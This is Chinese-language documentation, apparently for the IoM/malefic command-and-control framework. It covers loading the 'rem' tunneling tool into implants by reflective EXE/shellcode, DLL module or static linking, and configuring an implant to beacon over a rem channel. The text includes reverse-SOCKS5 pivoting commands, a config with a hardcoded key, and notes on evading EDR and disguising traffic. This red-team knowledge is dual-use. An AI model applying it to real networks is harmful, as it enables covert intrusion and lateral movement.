 

在IoM中，绝大部分网络相关功能都基于rem实现。 但因为rem并非基于rust实现， 并且出于多种因素考虑， rem没有成为默认开启的选项。



## 加载rem

!!! tips "v0.1.1开始, rem的使用被大大简化，虽然不是默认模块， 但是已经简化到不带来额外的使用和理解困难的程度"


在IoM的v0.1.0中集成了一系列rem相关的功能. IoM通过三种方式打通implant与rem的交互。

### 方法1 反射加载EXE程序

rust implant的execute_exe 能完美加载rem， 就像在本地使用一样。 

```
execute_exe rem.exe -- -c [rem_link] ... 
```

或基于RDI的实现
```
execute_shellcode rem.exe -- -c [rem_link] ...
```

!!! example "优点"
	- 无文件落地
	- 支持RDI和PIC两种加载方式

!!! danger "缺点"
	- 有新进程产生，并且无法使用inline版本的加载器。对某些高强度端上对抗环境有暴露面
	- 与pipeline交互有延迟， 需要等待30-60秒才能将新的pivoting数据同步
	- 只支持windows

### 方法2 动态加载 module

将rem打包成dll, 基于Cgo与FFI实现跨语言调用

对于使用者来说， 不需要关注这些细节， 相关代码已经在[IoM的插件仓库](https://github.com/chainreactors/mal-community/blob/master/community-proxy/modules/rem.lua) 中完成了对应的封装。

上线后，在IoM命令行中执行以下代码即可安装并使用rem。

!!! tips "rem_community已在v0.1.1打包到client"

```sh
# 加载rem dll
rem_community load 

# 选择对应的rem pipeline, 搭建了反向代理隧道
rem_community socks5 rem_pipeline
```

!!! example "优点"
	- 相比`execute-exe/execute-shellcode`好的地方在于， 不会有新进程fork， 一切都在当前进程中完成。 
	- 联动IoM rem pipeline，能实时同步pivoting并进行后续管理

!!! danger "缺点"
	- 需要反射加载dll, 可能会留下EDR的部分暴露面
	- 只支持windows

### 方法3 静态链接rem

方法1和2都是解决上线后进一步搭建proxy/tunnel，本方法直接支持rem信道上线以及所有的rem提供的proxy/tunnel功能。


```yaml
implants:  
  ......
  enable_3rd: true       # enable 3rd module  
  3rd_modules:            # 3rd module when malefic compile  
    - rem
```

```sh
malefic-mutant generate beacon
```

!!! danger "windows 仅x86_64-pc-windows-gnu支持, linux 均支持 "

静态链接的beacon体积会膨胀不少， 但是可以直接使用rem

![](/blog/assets/Pasted%20image%2020250412001458.png)

例如搭建反向socks5代理只需要

```
reverse [rem_defualt]
```

手动指定rem命令
```
rem_dial [rem_default] -- -c ...
```

!!! example "优点"
	- 支持windows/linux
	- 联动IoM rem pipeline
	- 能复用rem的信道实现上线
	- 只在本进程中执行， 不会fork新进程
	
!!! danger "缺点"
	- 体积会膨胀， 大概在10M左右， upx后3-4M
	- 静态链接库不再支持ollvm, 带来一定的静态特征

## rem信道上线

基于静态链接的rem有一个独一无二的优势。 可以直接通过rem构建的内存中的虚拟信道上线。 实现**malefic over rem**

需要修改implant 的`config.yaml`

```yaml
basic:  
  name: "malefic"  
  targets:  
    - "127.0.0.1:5001"  
  protocol: "rem"  
  tls: false  
  proxy: ""  
  interval: 5  
  jitter: 0.2  
  ca:  
  encryption: aes  
  key: maliceofinternal  
  rem:  
    link: '[rem_link]'
```

运行mutant生成编译配置并编译

```bash
malefic-mutant generate beacon

cargo build --release -p malefic
```

debug 模式下的日志。 可以看到IoM的implant基于通过rem的构建的传输层进行通讯

![](/IoM/assets/76cd7db07e9cb196183a759c85ae396.png)


这样一来， rem支持的所有传输层，加密，伪装混淆都能复用到implant中， 实现流量侧的任意伪装。